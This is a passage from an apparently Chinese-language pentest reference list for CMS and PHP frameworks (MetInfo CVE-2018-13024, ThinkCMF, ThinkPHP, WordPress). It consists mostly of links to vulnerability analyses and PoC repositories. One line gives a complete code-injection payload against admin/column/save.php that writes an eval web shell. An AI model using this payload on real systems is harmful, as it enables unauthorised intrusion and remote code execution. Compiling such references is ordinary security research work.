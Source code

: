     远程攻击者可通过向 admin/column/save.php 文件发送 `module` 参数利用该漏洞向 .php 文件写入代码并执行该代码。

- 文章
    - [CVE-2018-13024复现及一次简单的内网渗透](https://www.freebuf.com/news/193748.html)

- POC | Payload | exp

    - `admin/column/save.php?name=123&action=editor&foldername=upload&module=22;@eval($_POST[1]);/*`

---

## ThinkCMF
**ThinkCMF_getshell**
- POC | Payload | exp
    - [jas502n/ThinkCMF_getshell](https://github.com/jas502n/ThinkCMF_getshell)

---

## ThinkPHP
### <5
**文章**
- [thinkphp一些版本的通杀漏洞payload](http://www.moonsec.com/post-853.html)
- [代码审计 | ThinkPHP3.x、5.x框架任意文件包含](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=39586)
- [Thinkphp2.1爆出重大安全漏洞](https://www.cnblogs.com/milantgh/p/3639178.html)
- [ThinkPHP3.2.3框架实现安全数据库操作分析](https://xz.aliyun.com/t/79)
- [ThinkPHP-漏洞分析集合 ](https://xz.aliyun.com/t/2812)
- [ThinkPHP3.2 框架sql注入漏洞分析(2018-08-23)](https://xz.aliyun.com/t/2629)
- [ Thinkphp框架 3.2.x sql注入漏洞分析](https://bbs.ichunqiu.com/thread-38901-1-12.html)

### 5
**文章**
- [ThinkPHP 5.x (v5.0.23及v5.1.31以下版本) 远程命令执行漏洞利用 (GetShell) ](https://www.vulnspy.com/cn-thinkphp-5.x-rce/)
- [代码审计 | ThinkPHP3.x、5.x框架任意文件包含](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=39586)
- [ThinkPHP 5.0.x、5.1.x、5.2.x 全版本远程命令执行漏洞](https://blog.csdn.net/csacs/article/details/86668057)
- [ThinkPHP v5.1.22曝出SQL注入漏洞](https://nosec.org/home/detail/1821.html)
- [ThinkPHP-漏洞分析集合 ](https://xz.aliyun.com/t/2812)
- [ThinkPHP 5.1.x SQL注入漏洞分析](https://www.freebuf.com/vuls/185420.html)
- [ThinkPHP框架 < 5.0.16 sql注入漏洞分析](https://bbs.ichunqiu.com/thread-38284-1-13.html)
- [ThinkPHP 5.x 远程命令执行漏洞利用过程](https://laucyun.com/a9142c328b103cd86a3715bd5073c4be.html)

**工具**
- [SkyBlueEternal/thinkphp-RCE-POC-Collection](https://github.com/SkyBlueEternal/thinkphp-RCE-POC-Collection)

**资源**
- [Mochazz/ThinkPHP-Vuln](https://github.com/Mochazz/ThinkPHP-Vuln)

---

## WordPress
**工具**
- [wpscanteam/wpscan](https://github.com/wpscanteam/wpscan)

---
